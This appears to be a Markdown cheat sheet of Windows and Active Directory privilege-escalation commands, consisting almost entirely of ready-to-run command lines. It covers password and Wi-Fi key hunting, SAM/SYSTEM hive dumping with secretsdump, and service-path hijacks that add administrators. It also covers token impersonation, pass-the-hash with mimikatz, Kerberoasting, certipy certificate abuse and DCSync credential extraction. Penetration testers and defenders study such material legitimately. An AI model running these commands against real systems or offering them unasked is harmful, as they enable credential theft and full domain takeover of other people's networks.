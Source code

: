 ## SYSTEM ENUMERATION
```cmd
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
hostname
wmic qfe
wmic logicaldisk get caption,filesystem,freespace,size,volumename

```
## USER ENUMERATION
```cmd
whoami /priv
whoami /groups
net user
net user <username>
net localgroup
```


## NETWORK ENUMERATION
```cmd
ipconfig /all
arp -a
route print
netstat -ano
```

## HUNTING PASSWORDS
```cmd
findstr /si password *.txt
netsh wlan show profile [SSID] key=clear
```

## FIREWALL / ANTIVIRUS
```cmd
sc query windefend
sc queryex type=service
netsh advfirewall firewall dump
netsh firewall show state
netsh firewall show config

```

## WINDOWS SUBSYSTEM FOR LINUX
```cmd
where /R C:\windows bash.exe
where /R C:\windows wsl.exe

```
## POTATO ATTACK
```sh
multi/script/web_delivery
run post/multi/recon/local_exploit_suggester
use exploit/windows/local/ms16_075_reflection
load incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
shell
getsystem
```
## RUNAS
```cmd
cmdkey /list
C:\Windows\System32\runas.exe /user:[domain/user] /savecred "C:\Windows\System32\cmd.exe /c [command] > [output]"
```
## REGSVC ACL
```cmd
reg save HKLM\SAM SAM --> download sam
reg save HKLM\SYSTEM SYSTEM  --> download system

	- secretsdump.py local -sam sam -system system

Get-Acl -Path hklm:\System\CurrentControlSet\services\ | format-list
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\temp\x.exe /f
sc start regsvc
```

## STARTUP APPS
```cmd
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

## DLL HIJACKING
```cmd
sc stop <service> & sc start <service>
ProcMon filter: "NAME NOT FOUND" and ends with ".dll"
```

## BINARY PATHS
```cmd
accesschk64.exe -uwcv Everyone *
sc qc <service>
sc config <service> binpath= "net localgroup administrators [user] /add"
sc stop <service> & sc start <service>
```

## UNQUOTED SERVICE PATHS
## (Run PowerUp.ps1 and replace files in the unquoted directory path)

## CVE-2019-1388
## Follow the manual GUI steps for privilege escalation.

## POWERSHELL SCRIPTS
```powershell
Set-ExecutionPolicy -ExecutionPolicy RemoteSigned -Scope LocalMachine
.\PowerUp.ps1
Invoke-AllChecks
```

## AD ENUMERATION (NO CREDENTIALS)
```cmd
net user /DOMAIN
net group /DOMAIN
net share
net localgroup
```

## AD ENUMERATION (WITH CREDENTIALS)
```sh
GetNPUsers.py domain/user -dc-ip <IP> -no-pass
ldapsearch -x -H ldap://<IP> -b "dc=domain,dc=com"
```
## KERBEROASTING
```sh
GetSPN.ps1
Invoke-Kerberoast.ps1
```

## OVERPASS THE HASH
```sh
sekurlsa::pth /user:<USER> /domain:<DOMAIN> /ntlm:<NTLM_HASH> /run:PowerShell.exe
```

## PSExec
```sh
psexec.py <domain>/<user>:<pass>@<IP>
```
## AD CS ATTACK
```sh
certipy find -dc-ip <IP> -u <user> -p <pass>
certipy req -ca <CA_NAME> -target <DC> -u <user> -p <pass>
certipy auth -pfx <admin.pfx> -dc-ip <IP>
evil-winrm -i <target> -u administrator -H <HASH>
```
## DCSYNC ATTACK
```sh
secretsdump.py <domain>/<user>@<IP> -hashes <HASH>
rpcclient -U "" <IP>
```